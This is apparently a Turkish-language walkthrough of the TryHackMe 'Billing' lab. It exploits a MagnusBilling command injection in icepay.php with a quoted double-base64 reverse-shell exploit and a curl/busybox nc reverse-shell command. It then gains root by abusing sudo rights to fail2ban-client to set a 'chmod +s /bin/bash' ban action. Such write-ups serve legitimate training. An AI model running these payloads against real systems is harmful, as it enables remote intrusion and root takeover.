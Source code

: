 ```yaml
---
title: 'TryHackMe | Billing WriteUp'
author: appdone
categories: [TryHackMe Challenges]
tags: [command injection, fail2ban, sudo]
render_with_liquid: false
media_subpath: /images/tryhackme_billing/
image:
  path: logo.webp
---
```


## Özet

Magnus Billing isimli web uygulamasında bir command injection zafiyeti olduğunu tespit edeceğiz. Bu zafiyeti sömürdükten sonra fail2ban-client programını parola kullanmadan root haklarında çalıştırabileceğimizi öğreneceğiz. Aktif bir işleme kural atadıktan sonra ise yetki yükselteceğiz.

## Keşif aşaması

### Nmap taraması

```console
$ nmap -sV -sC -T4 10.10.66.239
PORT     STATE SERVICE VERSION
22/tcp   open  ssh     OpenSSH 8.4p1 Debian 5+deb11u3 (protocol 2.0)
| ssh-hostkey: 
|   3072 79:ba:5d:23:35:b2:f0:25:d7:53:5e:c5:b9:af:c0:cc (RSA)
|   256 4e:c3:34:af:00:b7:35:bc:9f:f5:b0:d2:aa:35:ae:34 (ECDSA)
|_  256 26:aa:17:e0:c8:2a:c9:d9:98:17:e4:8f:87:73:78:4d (ED25519)
80/tcp   open  http    Apache httpd 2.4.56 ((Debian))
| http-robots.txt: 1 disallowed entry 
|_/mbilling/
| http-title:             MagnusBilling        
|_Requested resource was http://10.10.66.239/mbilling/
|_http-server-header: Apache/2.4.56 (Debian)
3306/tcp open  mysql   MariaDB (unauthorized)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

### 80 numaralı portun incelenmesi

![](1.webp){: width="1200" height="600" }

Web uygulamasının başlığında `MagnusBilling` adında bir ifade bulunuyor ve ana sayfaya gittiğimizde bizi /mbilling/ adresine yönlendiriyor. Dolayısıyla hazır bir sistem kullanıyor olabileceğini düşündüm. İnternette yaptığım kısa bir aramadan sonra [bu](https://github.com/hadrian3689/magnus_billing_rce/blob/main/magnus_rce.py) exploit ile karşılaştım. Güvenlik açığını sömüren fonksiyon aşağıdaki şekildedir.

```py
def exploit(self):
    requests.packages.urllib3.disable_warnings()
    print("Sending payload...")
    payload = "bash -c 'bash -i >& /dev/tcp/" + self.lhost + "/" + self.lport + " 0>&1'"
    encoded_payload_1 = self.convert_to_b64(payload)
    encoded_payload_2 = self.convert_to_b64(encoded_payload_1)
    target_url = self.url + "lib/icepay/icepay.php?democ=null;echo " + encoded_payload_2 + "|base64 -d|base64 -d|sh;null"
    upload_req = requests.get(target_url,verify=False)
```

Gördüğünüz üzere verilen lhost ve lport bilgisiyle bir payload oluşturuyor, oluşturduğu payloadı iki kez `base64` ile kodluyor, daha sonra ise `icepay.php` sayfasına `democ` parametresi ile beraber gönderiyor. Tabi göndermeden önce payloada bir kaç komut daha giriyor. base64 ile kodlanmış komutun çalışması için çözülmesi gerek.

## Sömürü aşaması

Payloadı base64 ile kodlamamıza gerek yok, herhalde bir sorun ile karşılaşmak istemediğinden doğrudan o şekilde payloadı gönderiyor.

```console
$ curl 'http://10.10.66.239/mbilling/lib/icepay/icepay.php?democ=;busybox+nc+10.21.66.61+1234+-e+/bin/bash;'
```

Sistemde ncat aracı bulunduğunu tahmin ettim ve dinlediğim `1234` numaralı port üzerinden bağlantı alabilmek için yukarıda gördüğünüz komutu kullandım. Herhangi bir sorun çıkarmadan bağlantımı alabildim.

```console
$ nc -nlvp 1234
listening on [any] 1234 ...
connect to [10.21.66.61] from (UNKNOWN) [10.10.66.239] 43226
id
uid=1001(asterisk) gid=1001(asterisk) groups=1001(asterisk)
```

Bu arada command injection zafiyetine sebep olan kod bloğunu aşağıda görebilirsiniz.

```php
if (isset($_GET['democ'])) {
    if (strlen($_GET['democ']) > 5) {
        exec("touch " . $_GET['democ'] . '.txt');
    } else {
        exec("rm -rf *.txt");
    }
}
```

## Yetki yükseltme

### root

Kullanıcının sudo yetkilerini görüntülediğimizde fail2ban-client adında bir dosyayı parola kullanmadan root haklarıyla çalıştırabileceğimizi görüyoruz.

```console
asterisk@Billing:/home/magnus$ sudo -l
Matching Defaults entries for asterisk on Billing:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin

Runas and Command-specific defaults for asterisk:
    Defaults!/usr/bin/fail2ban-client !requiretty

User asterisk may run the following commands on Billing:
    (ALL) NOPASSWD: /usr/bin/fail2ban-client
```

fail2ban-client aracı fail2ban ile etkileşim kurmak adına kullanılan bir yardımcı araçtır. fail2ban ise belirli kurallar dahilinde sistemdeki olağandışı hareketleri tespit eden ve tespit ettiği olaylara müdahale eden bir araçtır.

```console
asterisk@Billing:/home/magnus$ sudo -u root /usr/bin/fail2ban-client status
Status
|- Number of jail:      8
`- Jail list:   ast-cli-attck, ast-hgc-200, asterisk-iptables, asterisk-manager, ip-blacklist, mbilling_ddos, mbilling_login, sshd
```

Gördüğünüz üzere sekiz adet aktif işlem var.

```console
...
[mbilling_login]
enabled  = true
filter   = mbilling_login
action   = iptables-allports[name=mbilling_login, port=all, protocol=all]
logpath  = /var/www/html/mbilling/protected/runtime/application.log
maxretry = 3
bantime = 300

[ip-blacklist]
enabled   = true
filter    = ip-blacklist
action    = iptables-allports[name=ASTERISK, protocol=all] 
logpath   = /var/www/html/mbilling/resources/ip.blacklist
maxretry  = 0
findtime  = 15552000
bantime   = -1


[sshd]
enablem=true

[mbilling_ddos]
enabled  = true
filter   = mbilling_ddos
action   = iptables-allports[name=mbilling_ddos, port=all, protocol=all]
logpath  = /var/log/apache2/error.log
maxretry = 20
bantime = 3600
```

Yukarıda aktif işlemlerin bir kısmı bulunuyor. Her birine birer log dosyası verilmiş ve olandığışı bir hareket olduğu durumda belirtilen eylemi yapması söylenmiş. fail2ban-client aracından yararlaranak bu şekilde bir işlem oluşturmamız veya halihazırda olan bir işlemi düzenlememiz gerekiyor. Yukarıda gördüğünüz üzere `sshd` dışındaki tüm işlemlerin kuralları belirtilmiş. sshd'ye bir kural atamayı ve shell almayı deneyelim.

```console
asterisk@Billing:/home/magnus$  sudo -u root /usr/bin/fail2ban-client set sshd action iptables-multiport actionban "chmod +s /bin/bash"
```

Öncelikle `sshd`'nin eylemini `chmod +s /bin/bash` komutu ile değiştiriyoruz. Böylelikle bir sorun ile karşılaştığında `/bin/bash` dosyasına `SUID` biti atayacak. Daha sonra rastgele bir IP adresini banlıyoruz. Böylelikle belirttiğimiz komut root haklarında çalıştırılıyor ve `/bin/bash` dosyasına `SUID` biti atılıyor.

```console
asterisk@Billing:/home/magnus$ sudo -u root /usr/bin/fail2ban-client set sshd banip 1.2.3.4
asterisk@Billing:/home/magnus$ ls -la /bin/bash
-rwsr-sr-x 1 root root 1234376 Mar 27  2022 /bin/bash
asterisk@Billing:/home/magnus$ bash -p
bash-5.1# id
uid=1001(asterisk) gid=1001(asterisk) euid=0(root) egid=0(root) groups=0(root),1001(asterisk)
```

`bash -p` komutunu kullandıktan sonra ise root haklarına sahip oluyoruz.
